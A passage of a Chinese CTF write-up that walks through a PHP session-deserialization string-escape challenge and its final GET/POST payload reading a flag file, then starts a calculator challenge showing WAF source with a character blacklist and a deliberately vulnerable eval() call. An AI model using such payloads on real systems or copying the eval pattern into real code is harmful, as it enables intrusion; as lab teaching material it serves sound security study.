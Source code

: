可以发现，**SESSION数组的键值img对应的值发生了改变。**

设想，如果我们能够控制原来SESSION数组的 funcion 的值但无法控制 img 的值，我们就可以通过这种方式间接控制到 img 对应的值。这个感觉就像SQL 注入一样，他本来想读取的base64编码是： L2QwZzNfZmxsbGxsbGFn,但是由于过滤掉了flag,向后读取的过程中把键值 function 放到了第一个键值的内容里面，用ZDBnM19mMWFnLnBocA==代替了真正的base64编码，读取了 d0g3_f1ag.php 的内容。而识别完成后最后面的`";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}`被忽略掉了，不影响正常的反序列化过程。

6、回到题目，来看看最终的Payload：

```
GET：  f=show_image;
Post： _SESSION[user]=flagflagflagflagflagflag&amp;_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}


```

分析一下，指定了各个参数的值，正常的序列化过程为：

```
&lt;?php
  $_SESSION["user"]='flagflagflagflagflagflag';
  $_SESSION["function"]='a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}';
  $_SESSION["img"]='ZDBnM19mMWFnLnBocA==';
  $_SESSION["img"] = base64_encode('guest_img.png');
  echo serialize($_SESSION);
?&gt;


```

由于过滤机制，那么序列化之后：

<img src="https://img-blog.csdnimg.cn/20200821121256542.png#pic_center" alt="在这里插入图片描述"> 那么此时反序列之后就变成了：

<img src="https://img-blog.csdnimg.cn/20200821121353171.png#pic_center" alt="在这里插入图片描述"> 来看看执行结果：

<img src="https://img-blog.csdnimg.cn/20200821121414205.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述"> 提示在 d0g3_fllllllag 里，`base_encode(/d0g3_fllllllag)=L2QwZzNfZmxsbGxsbGFn`修改一下payload即可：

<img src="https://img-blog.csdnimg.cn/20200821122302744.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70#pic_center" alt="在这里插入图片描述">

### No.8 PHP 字符串解析漏洞利用

来看看题目链接： <img src="https://img-blog.csdnimg.cn/20210504124800727.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述"> 1、访问解题地址是一个简单的计算器，尝试输入数值进行计算： <img src="https://img-blog.csdnimg.cn/20210504125632982.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

2、猜测应该是考察命令执行漏洞，尝试直接读取 `flag.php`，失败： <img src="https://img-blog.csdnimg.cn/20210504125750263.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">实际上发现不能输入任何非数字的字符（除非运算符）： <img src="https://img-blog.csdnimg.cn/20210504134217513.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">

3、访问网页源码，提示有 WAF 过滤： <img src="https://img-blog.csdnimg.cn/20210504125102487.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">4、查看 `calc.php` 的网页，获得 WAF 的源码，可以看到过滤了空格、单引号、双引号、“`/`”等： <img src="https://img-blog.csdnimg.cn/20210504125331794.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70" alt="在这里插入图片描述">代码如下：

```
&lt;?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?&gt; 

```
